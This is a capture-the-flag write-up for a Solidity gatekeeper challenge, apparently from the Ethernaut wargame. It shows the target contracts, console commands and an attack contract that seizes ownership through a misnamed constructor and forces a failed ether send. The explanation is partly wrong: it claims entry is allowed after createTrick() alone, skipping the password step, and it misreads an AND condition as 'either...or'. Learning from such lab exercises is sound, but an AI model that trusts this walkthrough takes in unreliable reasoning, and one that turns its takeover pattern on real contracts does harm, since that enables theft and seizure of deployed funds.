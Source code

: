 # Challenge 28

<img src="./images/BigLevel28.svg" alt="28">


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor (address payable _target) {
    target = GatekeeperThree(_target);
  }
    
  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }
    
  function trickInit() public {
    trick = address(this);
  }
    
  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  }
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allowEntrance;

  SimpleTrick public trick;

  function construct0r() public {
      owner = msg.sender;
  }

  modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
  }

  modifier gateTwo() {
    require(allowEntrance == true);
    _;
  }

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
  }

  receive () external payable {}
}
```

Challenge 28
---
> Cope with gates and become an entrant.

> Things that might help:

 Recall return values of low-level functions.

 Be attentive with semantic.

 Refresh how storage works in Ethereum.

Solution : Challenge 28

1. First we have `gateOne()` if we want to pass then `msg.sender` needs to be `owner` and second condition is `tx.origin != owner` means `tx.origin` must not be owner that means it must be contact,
let's keep in mind this for now we will get to this later.

2. `allowEntrance == true` for this we need to know password openup the terminal and get the password which is private 
get to the timestamp.

```shell
await contract.createTrick();
```

check the `allowEntrance` it will be true.

```shell
await contrtact.allowEntrance();
```

3. we need to pass the gate three you need to know `&&` operation
```solidity
 modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }
```

either contract balance is greater than `0.001 ether` or the owner needs to send `0.001 ether` for that 

```shell
await web3.eth.sendTransaction({from: player, to: "0x5507b2782471A4d0b53B9F5D9E068085415b38aF", value: web3.utils.toWei("0.002", "ether")})
```

now third gate passed.

let's get to the gateOne,open remix and create Contract.

```solidity
contract Attack {
   GatekeeperThree public gate;

    constructor(address payable _addr) public payable {
        gate = GatekeeperThree(_addr);
    }

    function becomeOwner() public {
        gate.construct0r();
    }    

    function enter() public {
        (bool result,) = address(gate).call(abi.encodeWithSignature("enter()"));
      require(result);
    }

    receive() external payable{
      revert();
    }
}
```

now deploy the contract with instance address, call the `becomeOwner()` and after that call the `enter()` your call will be successful. let's see the `entrant`.

```shell
await contract.entrant();
```

your (player) address will be updated. and submit the instance and your level will be cleared🎉.